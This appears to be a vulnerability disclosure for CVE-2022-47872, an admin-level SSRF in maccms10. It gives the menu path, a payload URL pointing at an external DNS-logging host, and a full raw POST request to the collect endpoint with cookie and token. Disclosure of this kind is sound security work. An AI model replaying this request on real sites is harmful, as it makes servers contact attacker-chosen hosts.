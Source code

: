 #CVE-2022-47872

maccms10  admin+  ssrf attacks

Overview

Manufacturer's website information：https://maccms.pro

Source code download address ： https://github.com/maccmspro/maccms10.git

Affected version: V2021.1000.2000

![图片](https://user-images.githubusercontent.com/42855430/215932537-d105bc58-87e2-4366-82f2-f1f0403814c8.png)

2.Vulnerability details

https://github.com/maccmspro/maccms10/issues/22

Enter the background, click Collect --> Custom interface --> Interface address,

In the name box into payload1:http://7ca8e96e.dns.1433.eu.org.

It can cause ssrf attacks.

Vulnerability name：ssrf attacks

Vulnerability level：Medium risk

Vulnerability location： click Collect --> Custom interface --> Interface address

3.Recurring vulnerabilities and 

POST http://192.168.52.163/admin.php/admin/collect/info.html HTTP/1.1

Host: 192.168.52.163

User-Agent: Mozilla/5.0 (Macintosh; Intel Mac OS X 10.15; rv:106.0) Gecko/20100101
Firefox/106.0 

Accept: */*

AcceptLanguage: zh-CN,zh;q=0.8,zh-TW;q=0.7,zh-HK;q=0.5,en-US;q=0.3,en;q=0.2
Accept-Encoding:gzip,deflate

Content-Type: applicat ion/ x-www-form-urlencoded; charset=UTF-8

X-Requested-With: XMLHttpRequest

Content-Length: 226

Origin: http://192.168.52.163

Connection: close

Referer: http://192.168.52.163/admin.php/admin/collect/info.html

Cookie: PHPSESSID=gn328q2i2ruajsh96qoll65ia7


collect_id=&_token_=8d639020c85bde89f9276381d2460046&collect_name=1111&collect_url=http%3A%2F%2F7ca8e96e.dns.1433.eu.org.&collect_param=%26q%3D1&collect_type=1&collect_mid=1&collect_opt=Ø&collect_filter=0&collect_filter_from=


![图片](https://user-images.githubusercontent.com/42855430/215932024-defff077-ec1b-45b9-81c7-bf9e37223a98.png)

![图片](https://user-images.githubusercontent.com/42855430/215932063-57a5f2f4-31bb-46bd-a6b6-fe4a8f2c96a8.png)

![图片](https://user-images.githubusercontent.com/42855430/215932077-eac1b29c-b30a-47f3-a8d6-0e53b1f544e6.png)

![图片](https://user-images.githubusercontent.com/42855430/215932121-e175516b-88fc-4793-875b-d17a043d125f.png)

![图片](https://user-images.githubusercontent.com/42855430/215932176-2316a662-911d-4ef7-9cad-785cda61b7d6.png)



